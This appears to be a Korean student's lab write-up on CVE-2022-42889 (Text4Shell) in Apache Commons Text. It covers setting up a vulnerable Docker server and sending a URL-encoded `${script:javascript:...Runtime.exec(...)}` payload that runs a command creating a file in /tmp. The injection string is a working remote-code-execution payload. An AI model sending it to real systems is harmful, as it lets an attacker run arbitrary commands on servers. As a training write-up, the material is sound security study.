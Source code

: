 # CVE-2022-42889
> 화이트햇 스쿨 3기 - 김동환

<br/>

### 요약

- CVE-2022-42889는 Apache Commons Text 라이브러리(1.5 ~ 1.9 버전)에서 발견된 원격 코드 실행(RCE) 취약점입니다.

- 특정 버전의 Commons Text는 문자열 변수 치환(StringSubstitutor) 시 기본값으로 포함된 특정 조회(lookup) 기능(예: script, dns, url)을 통해 외부 입력값을 처리합니다.
- 이 중 script 조회 기능 등은 외부에서 제공된, 신뢰할 수 없는 스크립트나 데이터를 처리하여 실행할 수 있으므로, 공격자는 조작된 문자열(예: ${script:javascript:...})을 입력값으로 전달하여 서버에서 임의의 코드를 실행시킬 수 있습니다.
- 따라서 악의적인 공격자는 취약한 라이브러리를 사용하는 애플리케이션에 특수하게 조작된 입력값을 전송함으로써, 해당 서버의 제어권을 획득하거나 추가 공격을 수행할 수 있습니다.

<br>

---

<br>

### 환경 구성 및 실행 (MAC OS)
<br>

1. 명령어 실행


```
$ brew install maven
$ git clone https://github.com/karthikuj/cve-2022-42889-text4shell-docker
$ cd cve-2022-42889-text4shell-docker
$ mvn clean install
$ docker build --tag=text4shell .
$ docker run -p 8080:8080 text4shell
```

<br>

2. 취약 서버 구동

![alt text](image.png)

<br>

3. 서버 구동 후 정상 접근 확인

![alt text](<스크린샷 2025-04-23 오전 6.55.30.png>)

<br>

4. 피해 시스템 / tmp 파일 내용 확인
```
docker ps -a
sudo docker exec -it {NAME} ls /tmp/
```
![alt text](<스크린샷 2025-04-23 오전 7.03.52.png>)

<br>

5. 파라미터 값 조작 후 Exploit 진행
```
http://localhost:8080/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec(%27touch%20%2Ftmp%2Fexploit%27)%7D
```

![alt text](<스크린샷 2025-04-23 오전 7.07.38.png>)

> search 파라미터에 **${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}** 을 URL로 한번 인코딩 후 Exploit 진행




<br/>



### 결과


```
docker ps -a
sudo docker exec -it {NAME} ls /tmp/
```
![alt text](image-1.png)

<br/>

### 정리

CVE-2022-42889는 Apache Commons Text 1.5~1.9 버전의 문자열 보간 기능에서 ${script:javascript:...} 형태의 입력을 통해 서버에서 임의 명령어가 실행되는 원격 코드 실행 취약점으로, 1.10.0 버전에서 해당 기능이 비활성화되며 해결되었고, 입력값 검증 부재로 인한 치명적 보안 리스크를 보여준다.